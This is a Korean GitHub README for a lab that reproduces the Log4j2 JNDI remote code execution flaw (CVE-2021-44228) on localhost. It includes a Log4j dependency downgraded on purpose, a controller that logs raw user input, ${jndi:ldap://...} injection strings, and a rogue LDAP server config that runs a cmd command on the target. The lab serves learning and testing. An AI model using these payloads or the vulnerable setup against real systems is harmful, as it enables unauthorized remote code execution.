 # Log4j2 2.14.1 LDAP 원격 코드 실행 취약점(CVE-2021-44228) 확인

* 취약점 공지
  * https://nvd.nist.gov/vuln/detail/CVE-2021-44228

## [target-server](target-server)

* pom.xml : Log4j2 버전을 취약버전으로 낮춤

  ```xml
  <properties>
    <java.version>11</java.version>
    <!-- Spring Boot 2.6.2는 2.17.0 디펜던시를 가지지만, 일부러 버전을 낮춘다.-->
    <log4j2.version>2.14.1</log4j2.version>
  </properties>
  ```

* LoggingController : 사용자의 입력을 그대로 받아 로깅하는 컨트롤러 메서드 추가
  ```java
    @PostMapping("/form")
    public String form(String ldapString, RedirectAttributes rttr) {
      try {
        LOGGER.info("{}", ldapString);
        rttr.addFlashAttribute("exception", "예외 발생 X");
      } catch (Exception e) {
        rttr.addFlashAttribute("exception", "예외발생 O: " + e.getMessage());
      }
      return "redirect:/";
    }
  ```

* 브라우저 실행

  ![target-server-view.png](doc-resources/target-server-view.png)



### 동작 확인 내용

1. 실제로 `${jndi:ldap://127.0.0.1:19090/run}` 문자열을 서버로 전송했을 때, 서버가 `127.0.0.1:19090` 로 접속을 시도한다.

   ```
   2022-01-03 13:16:52.526  INFO 14736 --- [nio-8080-exec-7] o.m.t.c.LoggingController                : ${jndi:ldap://127.0.0.1:19090/run}
   2022-01-03 13:17:09,993 http-nio-8080-exec-10 WARN Error looking up JNDI resource [ldap://127.0.0.1:19090/run]. javax.naming.CommunicationException: 127.0.0.1:19090 [Root exception is java.net.ConnectException: Connection refused: connect]
   ...
   ```

   로컬의 19090 포트에 LDAP 서버가  켜져 있는 것은 아니여서 `Connection refused: connect` 예외로 에러 로그가 남음.

2. `LOGGER.info("{}", ldapString);` 코드에서 **JNDI 에러 예외가 던져지지 않았다.** 

   * 로그를 자세하게 확인하지 않고 지나가면 잊고 지나가기 쉬운 문제인 것 같다.





## [ldap-server](ldap-server)  

https://github.com/veracode-research/rogue-jndi  이 코드에서 Tomcat 관련된 부분만 조사해서, 단순한 Spring Boot 프로젝트로 구성했다.

Tomcat관련 부분만 조사한 이유는...

일단 대상 테스트 서버가 Spring Boot의 내장 톰켓 기반이여서, Tomcat만 조사하여도 취약점 동작을 확인할 수 있을 것으로 보여 그렇게 진행했다.

**명령문 준비**

단순 계산기만 수행하기에는 너무 단순해서 cmd 명령어를 조합해보았다.

* ldapserver-config.properties 

  ```properties
  # 타겟 서버의 윈도우 OS 버전을 텍스트 파일에 기록한 다음 메모장으로 여는 내용
  ldaptest.remote.command=cmd /c ver > test.txt && notepad test.txt
  ...
  ```

  

실제로 해보니 정말로 테스트 타겟서버의 실행파일 원격 실행이 가능했다. 확인 방법은 아래와 같다.

1. ldap-server 서버, traget-server 실행

   ```bash
   # LDAP 서버 실행
   C:\git-mklinkj\log4j2-test\ldap-server>mvnw clean spring-boot:run
   
   # 테스트 타겟 서버 실행
   C:\git-mklinkj\log4j2-test\target-server>mvnw clean spring-boot:run
   ```

   

2. 테스트 타겟 서버에서 `${jndi:ldap://127.0.0.1:19090/o=tomcat}` 문자열 전송 후 확인

   ![remote-code-executed](doc-resources/remote-code-executed.png)

   **target-server 프로젝트 루트에 test.txt파일이 만들어지고, 메모장을 통해 실행이 되었음.**

   

   

## 후기

* 실제로 진행보니 이 취약점을 방치하면 정말 위험한 것 같다. 개발, 스테이징 환경에서 테스트를 해서 LDAP 접속을 발생시키는 부분이 없는지 확인 되어야할 것 같다.
* [rogue-jndi](https://github.com/veracode-research/rogue-jndi) 레파지토리 작성하신  [Michael Stepankin](https://twitter.com/artsploit) 님 덕분에 확인을 할 수 있게되어 감사합니다.  😄



### 면책 조항 

이 소프트웨어는 교육 목적 및/또는 사용자가 사전에 공격을 허용한 시스템 테스트용으로만 제공됩니다. <br> ([rogue-jndi](https://github.com/veracode-research/rogue-jndi)에도 이 문구를 추가 하셨길레 따라서 넣었다. 😓)
